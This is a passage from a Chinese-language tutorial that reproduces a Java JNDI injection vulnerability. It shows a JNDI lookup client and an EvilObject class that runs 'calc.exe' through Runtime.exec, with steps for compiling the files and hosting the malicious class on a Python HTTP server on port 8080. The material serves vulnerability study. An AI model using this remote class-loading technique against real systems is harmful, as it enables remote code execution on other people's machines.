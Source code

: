 ```java
        if(args.length< 1 ) {
            System.out.println("Usage: java JNDIClient <url>");
            System.exit(-1);
        }
        String url = args[0];
        Context ctx = new InitialContext();
        System.out.println("Using lookup() to fetch object with "+ url);
        ctx.lookup(url);
    }
}
public class EvilObject {
    public EvilObject() throws Exception{
        Runtime rt = Runtime.getRuntime();
        String[] command = {"cmd", "/C", "calc.exe"};
        Process pc = rt.exec(command);
        pc.waitFor();
    }
}
```

需要注意的一点，需要将三个文件分别使用`javac`在命令行进行编译，如果是在IDEA中编写的代码，记得先把`package xxx;`删除掉，然后再进行编译，最好三个文件在不同的文件夹内，而为了不使`EvilObject.class`文件在漏洞复现过程中应用端实例化``EvilObject`对象时从`CLASSPATH`当前路径找到编译好的字节代码，而不去远端进行下载的情况发生。

然后使用python起一个http服务器在`8080`端口（在EvilObject文件所在目录启动服务）（**记得关掉burp代理**）

![img](img/4.png)
